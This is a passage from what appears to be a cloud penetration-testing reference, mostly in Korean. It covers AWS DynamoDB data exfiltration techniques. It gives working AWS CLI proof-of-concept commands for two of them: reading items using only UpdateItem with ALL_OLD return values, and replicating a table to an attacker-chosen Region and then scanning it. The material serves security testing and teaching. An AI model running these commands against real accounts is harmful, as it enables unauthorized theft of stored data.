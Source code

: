 ```bash
--shard-iterator <shard_iterator> \
--region <region>
```
**잠재적 영향**: DynamoDB 테이블 변경 사항의 실시간 모니터링 및 data leakage.

### `dynamodb:UpdateItem` 및 `ReturnValues=ALL_OLD`로 항목 읽기

테이블에 대해 `dynamodb:UpdateItem` 권한만 있는 공격자는 사소한 업데이트를 수행하고 `--return-values ALL_OLD`를 요청함으로써 일반적인 읽기 권한(`GetItem`/`Query`/`Scan`) 없이 항목을 읽을 수 있습니다. DynamoDB는 응답의 `Attributes` 필드에 항목의 업데이트 전 전체 이미지를 반환합니다(이는 RCUs를 소모하지 않습니다).

- 최소 권한: 대상 테이블/키에 대한 `dynamodb:UpdateItem`.
- 전제 조건: 항목의 기본 키를 알고 있어야 합니다.

Example (adds a harmless attribute and exfiltrates the previous item in the response):
```bash
aws dynamodb update-item \
--table-name <TargetTable> \
--key '{"<PKName>":{"S":"<PKValue>"}}' \
--update-expression 'SET #m = :v' \
--expression-attribute-names '{"#m":"exfil_marker"}' \
--expression-attribute-values '{":v":{"S":"1"}}' \
--return-values ALL_OLD \
--region <region>
```
CLI 응답에는 전체 이전 항목(모든 attributes)을 포함하는 `Attributes` 블록이 포함되며, 이로 인해 write-only access로부터 사실상 read primitive를 획득할 수 있습니다.

**잠재적 영향:** 쓰기 권한만으로 테이블에서 임의의 항목을 읽을 수 있으며, primary keys가 알려진 경우 민감한 데이터의 exfiltration이 가능해집니다.


### `dynamodb:UpdateTable (replica-updates)` | `dynamodb:CreateTableReplica`

새로운 리플리카 Region을 DynamoDB Global Table (version 2019.11.21)에 추가하여 은밀하게 exfiltration을 수행할 수 있습니다. principal이 리전 리플리카를 추가할 수 있다면, 전체 테이블이 공격자가 선택한 Region으로 복제되어 공격자는 해당 Region에서 모든 항목을 읽을 수 있습니다.

{{#tabs }}
{{#tab name="PoC (default DynamoDB-managed KMS)" }}
```bash
# Add a new replica Region (from primary Region)
aws dynamodb update-table \
--table-name <TableName> \
--replica-updates '[{"Create": {"RegionName": "<replica-region>"}}]' \
--region <primary-region>

# Wait until the replica table becomes ACTIVE in the replica Region
aws dynamodb describe-table --table-name <TableName> --region <replica-region> --query 'Table.TableStatus'

# Exfiltrate by reading from the replica Region
aws dynamodb scan --table-name <TableName> --region <replica-region>
```
{{#endtab }}
{{#tab name="PoC (customer-managed KMS)" }}
```bash
# Specify the CMK to use in the replica Region
aws dynamodb update-table \
--table-name <TableName> \
--replica-updates '[{"Create": {"RegionName": "<replica-region>", "KMSMasterKeyId": "arn:aws:kms:<replica-region>:<account-id>:key/<cmk-id>"}}]' \
--region <primary-region>
```
{{#endtab }}
{{#endtabs }}
